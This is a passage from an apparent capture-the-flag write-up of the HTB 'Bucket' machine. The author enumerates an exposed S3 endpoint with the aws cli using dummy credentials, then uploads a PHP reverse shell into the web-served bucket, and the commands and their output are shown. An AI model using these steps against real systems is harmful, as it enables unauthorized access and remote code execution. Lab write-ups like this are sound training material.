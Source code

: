 Here is what I got:

<img src="/images/bucket/creds.png">

All of the above process would have been even more easier if I used the aws cli to begin with. oh well...

I tried all these creds on SSH to no luck. Next I remember that this also has a s3 bucket. Lets enumerate that. I installed awscli and thought "Damn! do i need to set it up with my real access ID and secret?". Nope. Someone suggested I don't need to. So I just gave all the fields in the configuration part some random input and it worked fine.

Right.. now we begin s3 enumeration. 

```
aws --endpoint-url http://s3.bucket.htb s3 ls
2021-04-10 05:24:03 adserver

aws --endpoint-url http://s3.bucket.htb s3 ls s3://adserver
                           PRE images/
2021-04-10 05:24:04       5344 index.html
```

Alright we see the content that was being displayed earlier on the main website. Only thing that comes to mind now is to upload a webshell and browse to it. 

```
$ aws --endpoint-url http://s3.bucket.htb s3 cp php-reverse-shell.php s3://adserver
upload: ./php-reverse-shell.php to s3://adserver/php-reverse-shell.php

aws --endpoint-url http://s3.bucket.htb s3 ls s3://adserver
                           PRE images/
2021-04-10 05:28:04       5344 index.html
2021-04-10 05:28:33       5494 php-reverse-shell.php
```
